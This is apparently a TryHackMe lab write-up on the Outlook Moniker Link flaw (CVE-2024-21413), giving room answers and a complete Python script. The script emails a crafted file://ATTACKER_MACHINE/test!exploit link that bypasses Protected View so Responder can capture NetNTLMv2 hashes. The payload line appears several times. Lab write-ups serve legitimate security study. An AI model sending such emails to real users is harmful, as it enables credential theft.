 ```yaml
---
title: Moniker Link (CVE-2024-21413)
date: 2025-10-29
draft: false
tags:
  - Cybersecurity
  - TryHackMe
  - Exploits
  - CVE
---
```

**Note:** 

- The questions are shortened for a cleaner view
- Questions that are straightforward will only have answers attached. Such questions can be easily answered by reading the documentation given in the room.

## Task  1 - Introduction

#### 1) What "Severity" rating has the CVE been assigned?

**Ans:** `Critical`

---

## Task  2 -  Moniker Link (CVE-2024-21413)

#### 1) What Moniker Link type do we use in the hyperlink?

**Ans:** `file://`

#### 2) Special character used to bypass "Protected View"?

**Ans:** `!`

>The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit">Click me</a>`.

---

## Task  3 - Exploitation

#### 1) Application used to capture the user's hash?

**Ans:** `responder`

#### 2) What type of hash is captured ? 

**Ans:** `netNTLMv2`

*Make sure you don't forget to add the Attack Box's IP address you attack machine's IP address as well the Windows Machine IP address in the script*

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

````python
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
````

```python
server = smtplib.SMTP('MAILSERVER', 25)
```

- *Further tasks do not require any answers*

---
